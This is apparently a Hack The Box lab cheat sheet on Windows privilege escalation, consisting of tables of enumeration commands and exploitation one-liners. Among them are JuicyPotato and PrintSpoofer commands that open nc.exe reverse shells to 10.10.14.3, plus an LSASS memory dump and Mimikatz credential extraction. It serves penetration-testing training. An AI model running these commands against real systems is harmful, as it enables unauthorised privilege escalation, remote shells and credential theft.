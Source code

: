 |**Command**|**Description**|
|---|---|
|`xfreerdp /v:<target ip> /u:htb-student`|RDP to lab target|
|`ipconfig /all`|Get interface, IP address and DNS information|
|`arp -a`|Review ARP table|
|`route print`|Review routing table|
|`Get-MpComputerStatus`|Check Windows Defender status|
|`Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`|List AppLocker rules|
|`Get-AppLockerPolicy -Local \| Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone`|Test AppLocker policy|
|`set`|Display all environment variables|
|`systeminfo`|View detailed system configuration information|
|`wmic qfe`|Get patches and updates|
|`wmic product get name`|Get installed programs|
|`tasklist /svc`|Display running processes|
|`query user`|Get logged-in users|
|`echo %USERNAME%`|Get current user|
|`whoami /priv`|View current user privileges|
|`whoami /groups`|View current user group information|
|`net user`|Get all system users|
|`net localgroup`|Get all system groups|
|`net localgroup administrators`|View details about a group|
|`net accounts`|Get passsword policy|
|`netstat -ano`|Display active network connections|
|`pipelist.exe /accepteula`|List named pipes|
|`gci \\.\pipe\`|List named pipes with PowerShell|
|`accesschk.exe /accepteula \\.\Pipe\lsass -v`|Review permissions on a named pipe|

## Handy Commands

|**Command**|**Description**|
|---|---|
|`mssqlclient.py sql_dev@10.129.43.30 -windows-auth`|Connect using mssqlclient.py|
|`enable_xp_cmdshell`|Enable xp_cmdshell with mssqlclient.py|
|`xp_cmdshell whoami`|Run OS commands with xp_cmdshell|
|`c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`|Escalate privileges with JuicyPotato|
|`c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`|Escalating privileges with PrintSpoofer|
|`procdump.exe -accepteula -ma lsass.exe lsass.dmp`|Take memory dump with ProcDump|
|`sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`|Use MimiKatz to extract credentials from LSASS memory dump|
|`dir /q C:\backups\wwwroot\web.config`|Checking ownership of a file|
|`takeown /f C:\backups\wwwroot\web.config`|Taking ownership of a file|